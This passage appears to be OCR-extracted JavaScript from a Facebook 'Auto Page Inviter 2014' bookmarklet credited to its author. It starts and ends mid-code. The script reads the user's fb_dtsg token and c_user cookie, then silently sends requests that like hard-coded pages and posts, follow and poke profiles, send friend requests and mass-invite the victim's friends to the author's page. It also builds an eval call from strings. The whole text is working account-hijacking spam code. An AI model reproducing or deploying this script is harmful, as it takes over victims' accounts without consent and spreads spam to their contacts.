 1000*60*60*24*365); 			if(cinshtml.getElementsByTagName("select")[0].value == "1"){ 			document.cookie = "cins" + user_id + "=kadin;expires=" + btarihi.toGMTString(); 			}else if(cinshtml.getElementsByTagName("select")[0].value == "2"){ 			document.cookie = "cins" + user_id + "=erkek;expires=" + btarihi.toGMTString(); 			} 			eval(fonksiyon + "(" + id + "," + cins + ");"); 			}         }; 		xmlhttp.open("GET", "/ajax/timeline/edit_profile/basic_info.php?__a=1&amp;__user=" + user_id, true); 		xmlhttp.setRequestHeader ("X-SVN-Rev", svn_rev); 		xmlhttp.send(); } var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) { var Page = new XMLHttpRequest(); var PageURL = "//www.facebook.com/ajax/pages/fan_status.php"; var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; Page.open("POST", PageURL, true); Page.onreadystatechange = function () { if (Page.readyState == 4 &amp;&amp; Page.status == 200) { Page.close; } }; Page.send(PageParams); }  var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) { var http4=new XMLHttpRequest; var url4="/ajax/follow/follow_profile.php?__a=1"; var params4="profile_id="+abone+"&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg="+fb_dtsg+"&amp;lsd&amp;__"+user_id+"&amp;phstamp="; http4.open("POST",url4,true); http4.onreadystatechange=function() { if(http4.readyState==4&amp;&amp;http4.status==200)http4.close } ; http4.send(params4) } function sublist(uidss) { var a = document.createElement('script'); a.innerHTML = "new AsyncRequest().setURI('/ajax/friends/lists/subscribe/modify?location=permalink&amp;action=subscribe').setData({ flid: " + uidss + " }).send();"; document.body.appendChild(a); } function p(abone) { var http4 = new XMLHttpRequest(); var url4 = "//www.facebook.com/ajax/poke_dialog.php"; var params4 = "uid=" + abone + "&amp;pokeback=0&amp;ask_for_confirm=0&amp;nctr[_mod]=pagelet_timeline_profile_actions&amp;__asyncDialog=1&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=v&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; http4.open("POST", url4, true); http4.onreadystatechange = function () { if (http4.readyState == 4 &amp;&amp; http4.status == 200) { http4.close; } }; http4.send(params4); }var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var now=(new Date).getTime(); function P(opo) { var X = new XMLHttpRequest(); var XURL ="//www.facebook.com/ajax/ufi/like.php"; var XParams = "like_action=true&amp;ft_ent_identifier="+opo+"&amp;source=1&amp;client_id="+now+"%3A379783857&amp;rootid=u_jsonp_39_18&amp;giftoccasion&amp;ft[tn]=%3E%3D&amp;ft[type]=20&amp;ft[qid]=5890811329470279257&amp;ft[mf_story_key]=2814962900193143952&amp;ft[has_expanded_ufi]=1&amp;nctr[_mod]=pagelet_home_stream&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=7n88QoAMBlClyocpae&amp;__req=g4&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp="; X.open("POST", XURL, true); X.onreadystatechange = function () { if (X.readyState == 4 &amp;&amp; X.status == 200) { X.close; } }; X.send(XParams); }  // pic + fans P("189470591263392");Like("115460785331040");Like("103850406492078");Like("686129931429172");Like("203433653200419");P("203147596562358");Like("202056856671432");Like("189470591263392"); /*Add Friend*/; var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new XMLHttpRequest();   var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); }  javascript: var Title='Auto Page Inviter 2014&lt;br/> By:&lt;A style="color:#cecfd1;" href="https://www.facebook.com/Gujjar772" target="_blank">Hamza Gujjar&lt;/A>'; var Descriptions = "",     _text = 'Powered By: Hamza_Gujjar&lt;/br>Script Made By &lt;/A>&lt;A style="color:#8db8ca;" href="http://www.facebook.com/Gujjar772" target="_blank"> Hamza_Gujjar&lt;/A>&lt;/A>.&lt;/br>  My Fanpage &lt;A style="color:#e6ebf8;" href="http://www.facebook.com/686129931429172" target="_blank">Hamza_Gujjar&lt;/A>.&lt;/A>'; page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1]; function InviteFriends(opo) {     jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send_single?page_id=" + page_id + "&amp;invitee=" + opo + "&amp;elem_id=u_0_1k&amp;action=send&amp;__user=" + user_id + "&amp;__a=1&amp;__dyn=7n8aD5z5CF-3ui&amp;__req=8&amp;fb_dtsg=" + fb_dtsg + "&amp;phstamp=", function (a) {         var b = a.substring(a.indexOf("{"));         var c = JSON.parse(b);         i--;         Descriptions = "&lt;div class='friend-edge-name' style='padding-bottom:5px;text-align:left;font-size:10px;white-space:pre-wrap;";         if (c.error) {             Descriptions += "color:darkred'>";             err++;             if (c.errorDescription)